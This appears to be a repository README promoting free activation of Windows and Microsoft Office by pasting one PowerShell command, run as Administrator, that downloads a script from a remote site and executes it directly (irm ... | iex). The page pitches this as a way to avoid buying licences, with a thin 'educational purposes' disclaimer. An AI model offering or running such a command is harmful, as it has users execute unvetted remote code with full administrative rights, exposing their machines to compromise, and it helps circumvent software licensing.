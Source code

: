 # 🚀 Windows & Office Activation – Quick & Easy

This script provides a **simple and fast way** to activate **Windows & Microsoft Office** using a single PowerShell command. No need to buy expensive licenses or install any third-party applications! Everything happens directly through PowerShell.

## ⚡ Quick Activation Command
Run the following command in **PowerShell as Administrator**:
```powershell
irm https://get.activated.win | iex
```
✅ **Activation completes in under 30 seconds**  
✅ **Requires an active internet connection**  
✅ **No additional software or downloads needed**  
✅ **Works for both Windows & Office activation**  

## 📌 How to Use
1️⃣ Open **PowerShell as Administrator**  
2️⃣ Copy and paste the command above  
3️⃣ Press **Enter** and follow the on-screen instructions  
4️⃣ Enjoy **fully activated Windows & Office**! 🎉  

## 🔥 Why Use This?
- **No need to purchase costly activation keys**  
- **No third-party apps or keygens required**  
- **Quick and hassle-free activation**  
- **Works on multiple versions of Windows & Office**  

## ⚠️ Disclaimer
This script is **not created or owned** by me. All rights and credit belong to the original developers. This repository is solely for **educational purposes**. 
follow me on x: faisahrbk

⚠️ **Use at your own risk.** I am not responsible for any issues that may arise from using this script.
